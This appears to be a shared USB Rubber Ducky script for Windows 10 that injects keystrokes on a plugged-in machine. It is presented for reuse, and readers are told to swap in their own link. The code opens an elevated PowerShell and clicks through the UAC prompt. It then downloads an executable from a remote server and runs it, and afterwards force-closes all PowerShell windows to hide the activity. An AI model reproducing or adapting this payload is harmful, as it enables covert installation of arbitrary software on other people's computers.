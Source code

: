 A ducky script that uses the powershell to download and execute a file from a webserver, then close all powershell windows (with another powershell). Intended for use with windows 10 target, but probably works with Windows 7 and 8.

Change the link and what name to save the file as.


Preview: https://www.youtube.com/watch?v=3WojmjCiXnw

```
REM Windows 10: Poweshell administrator download and execute file
REM Author: Judge2020
REM author website: Judge2020.com
REM
REM start of script
REM
REM let the HID enumerate
DELAY 2000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y
DELAY 500
STRING $down = New-Object System.Net.WebClient; $url = 'http://www.greyhathacker.net/tools/messbox.exe'; $file = 'mess1.exe'; $down.DownloadFile($url,$file); $exec = New-Object -com shell.application; $exec.shellexecute($file);
ENTER
REM change delay based on how big of a file and how fast network is
DELAY 2000
GUI r
DELAY 200
REM my best attempt at now closing all powershell instances
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1200
ALT y
DELAY 500
STRING taskkill /F /IM powershell.exe 
ENTER
```